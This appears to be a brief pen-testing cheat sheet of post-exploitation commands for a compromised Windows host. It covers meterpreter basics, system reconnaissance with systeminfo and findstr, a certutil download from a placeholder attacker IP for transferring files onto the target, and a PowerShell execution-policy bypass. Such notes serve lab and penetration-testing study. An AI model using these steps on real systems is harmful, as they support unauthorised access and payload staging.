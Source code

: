 # Basics

meterpreter commands

```
getuid
```

```
sysinfo
```

```
shell
```

Shell Commands

```
dir                         #ls alternative for windows
```

```
systeminfo
```

## file transfer windows

```
certutil -urlcache -f http://<ip>/<filename> <filename to be saved as>
```

how to grep

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Output

```
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

If u have a meterpreter connection to window

```
load powershell
```

if a normal shell then&#x20;

```
powershell -p bypass
```

